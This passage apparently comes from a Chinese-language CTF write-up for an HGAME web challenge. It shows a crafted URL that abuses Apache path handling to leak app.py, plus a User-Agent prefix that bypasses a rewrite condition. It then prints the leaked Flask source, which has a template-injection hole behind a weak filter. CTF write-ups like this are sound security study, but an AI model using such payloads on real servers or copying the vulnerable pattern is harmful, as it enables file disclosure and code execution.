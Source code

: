 根据这篇文章我们可以构造出paylaod

```
http://node1.hgame.vidar.club:31155/admin/usr/local/apache2/app/app.py%3F
```

这道题多了一个**RewriteCond "%{HTTP_USER_AGENT}" "^L1nk/"**，只需要在user-agent前面加上L1nk/即可

![image-20250206165543890](../assets/image-20250206165543890.png)

拿到源码

```python
from flask import Flask, request, render_template, render_template_string, redirect
import os
import templates

app = Flask(__name__)
pwd = os.path.dirname(__file__)
show_msg = templates.show_msg


def readmsg():
	filename = pwd + "/tmp/message.txt"
	if os.path.exists(filename):
		f = open(filename, 'r')
		message = f.read()
		f.close()
		return message
	else:
		return 'No message now.'


@app.route('/index', methods=['GET'])
def index():
	status = request.args.get('status')
	if status is None:
		status = ''
	return render_template("index.html", status=status)


@app.route('/send', methods=['POST'])
def write_message():
	filename = pwd + "/tmp/message.txt"
	message = request.form['message']

	f = open(filename, 'w')
	f.write(message) 
	f.close()

	return redirect('index?status=Send successfully!!')
	
@app.route('/read', methods=['GET'])
def read_message():
	if "{" not in readmsg():
		show = show_msg.replace("{{message}}", readmsg())
		return render_template_string(show)
	return 'waf!!'
	

if __name__ == '__main__':
	app.run(host = '0.0.0.0', port = 5000)
```
